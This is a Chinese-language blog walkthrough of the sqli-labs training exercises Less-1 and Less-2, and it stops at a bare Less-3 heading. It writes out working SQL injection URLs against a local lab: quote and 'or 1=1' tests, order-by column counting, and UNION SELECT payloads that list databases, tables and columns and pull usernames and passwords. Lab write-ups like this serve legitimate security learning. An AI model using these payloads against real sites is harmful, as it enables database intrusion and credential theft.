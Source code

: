 ```yaml
---
title: sqli-labs
date: 2019-07-16 14:28:06
categories: sql injection
---
```

这个篇博客记录一下学习mysql-injection的过程
项目地址： https://github.com/Audi-1/sqli-labs
<!--more-->
## Less-1
- 登陆"127.0.0.1/sqli-labs-master/Less-1/?id=1"
![1-1](sqli-labs/1-1.png)
- 而在链接之后直接添加'
效果如图
![1-2](sqli-labs/1-2.png)
经过sql语句构造后形成'1''LIMIT 0,1错误
此时查询结果为字符型select username,password  from users where id='$_GET[id]' limit 0,1
- 进入"127.0.0.1/sqli-labs-master/Less-1/?id=1'or 1=1- -+"
![1-3](sqli-labs/1-3.png)
此时的sql语句成为SElECT * where id='1'or 1=1--+ LIMIT 0,1并正常返回数据
- 使用orderby语句，进入"127.0.0.1/sqli-labs-master/Less-5/?id=1'order by 3 - -+"
![1-4](sqli-labs/1-4.png)
而进入"127.0.0.1/sqli-labs-master/Less-1/?id=1'order by 4 - -+"
![1-5](sqli-labs/1-5.png)
说明一共有三列数据，输入4结果会超出
- 爆数据库名操作，进入"127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1, (select group_concat(schema_name)  from information_schema.schemata) , 3  - -+"
此时sql语句成为SELECT * FROM users WHERE id='-1'union select 1,group_concat(schema_name),3 from information_schema.schemata- -+ LIMIT0,1
其中UNION操作符用于合并两个或多个SELECT语句的结果集
![1-6](sqli-labs/1-6.png)
- 爆security下所有表名 进入"127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1, (select group_concat(table_name)  from information_schema.tables where table_schema = 'security') , 3  - -+"
此时sql语句为为SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'- -+ LIMIT0,1
![1-7](sqli-labs/1-7.png)
- 爆user表的列 进入"127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1, (select group_concat(column_name)  from information_schema.columns where table_name = 'user') , 3  - -+"
此时sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'- -+ LIMIT0,1
![1-8](sqli-labs/1-8.png)
- 爆用户名与密码 进入"127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1,username,password from users where id=2- -+"
此时sql语句为SELECT * FROM users WHERE id='-1'union select 1,username,password from users where id=2- -+ LIMIT0,1
![1-9](sqli-labs/1-9.png)
## Less-2
- 进入"127.0.0.1/sqli-lavs-master/Less-2"
![2-1](sqli-labs/2-1.png)
- 根据提示传入numeric参数id
![2-2](sqli-labs/2-2.png)
- 加入单引号进行测试
![2-3](sqli-labs/2-3.png)
看到错误check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
- 采用注释方法闭合单引号
![2-4](sqli-labs/2-4.png)
还是出现错误，可以与LESS1对比想到这是一个数字型而不是字符型注入，发送的SQL语句是select * from users where id=$_GET[id]（举例）
- 除去单引号
![2-5](sqli-labs/2-5.png)
- 猜字段长度
![2-6](sqli-labs/2-6.png)
![2-7](sqli-labs/2-7.png)
字段长度为3
- 爆数据库，127.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1, (select group_concat(schema_name) from information_schema.schemata) , 3 --+
![2-8](sqli-labs/2-8.png)
- 爆表名，1277.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1, (select group_concat(table_name) from information_schema.tables where table_schema = 'security') , 3 - -+
![2-9](sqli-labs/2-9.png)
- 爆字段名，127.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1, (select group_concat(column_name) from information_schema.columns where table_name = 'users') , 3 --+
![2-10](sqli-labs/2-10.png)
- 爆字段内容，127.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1, username,password from users where id=2 --+
![2-11](sqli-labs/2-11.png)
## Less-3
